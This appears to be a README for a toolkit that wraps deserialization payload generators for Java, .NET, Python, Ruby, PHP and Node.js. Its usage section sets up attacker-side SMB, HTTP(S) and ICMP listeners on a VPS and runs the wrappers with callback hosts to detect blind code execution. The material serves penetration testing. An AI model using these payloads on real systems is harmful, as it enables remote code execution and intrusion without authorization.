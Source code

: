 # INSECURE DESERIALIZATION SCRIPTS
This collection contains various tools for generating serialized payloads in different programming languages.

## TOOLS
* [Java - ysoserial.jar](https://github.com/frohoff/ysoserial)
    * [jargadgets.txt]()
* [C# - ysoserial.exe](https://github.com/pwntester/ysoserial.net/)
    * [RunYsoserial.ps1]() - Wrapper around ysoserial.net using all possible gadgets and formatters.
    * [netgadgets.txt]()
    * [netformatters.txt]()
* [Python - python_deser.py](PLACEHOLDER)
    * (Modified [Peas](https://github.com/j0lt-github/python-deserialization-attack-payload-generator))
* [Ruby - ruby_deser_vx.rb](PLACEHOLDER)
    * ([deser-ruby](https://github.com/klezVirus/deser-ruby) is an alternative tool for Ruby v3 which also supports YAML generation)
* [PHP - phpggc](https://github.com/ambionics/phpggc)
    * [php_deser.sh]() - Wrapper around phpggc that generates payloads from all possible gadgets in base64 format. 
    * [phpgadgets.txt]()
* [Node.js - deser-node.js](https://github.com/klezVirus/deser-node)
    * With deletec console.log() for clean output.
* [crimson_deser.sh]() - Wrapper around all generators except .NET

## USAGE
#### ON VPS
```bash
# TERMINAL 1
echo 123 > fake.dll
sudo impacket-smbserver deser . -smb2support
# TERMINAL 2
updog -p 443 --ssl 2>&1 | tee -a https.logs
# TERMINAL 3
python3 -m http.server 80 2>&1 | tee -a http.logs
# TERMINAL 4
sudo tcpdump -i any icmp -ttttt -w - -U | tee icmp.logs | tcpdump -r -
```
#### ON WINDOWS
```powershell
# In ysoserial directory
.\RunYsoserial.ps1 -collab 'ip_or_domain_here' -outputFormat 'base64' -outputFile 'deser.txt'
.\RunYsoserial.ps1 -collab 'ip_or_domain_here' -outputFormat 'hex' -outputFile 'deser.txt'
```

#### ON UNIX
```
./crimson_deser.sh "ping VPS_IP" "VPS_IP" "DOMAIN_COLLAB"
```


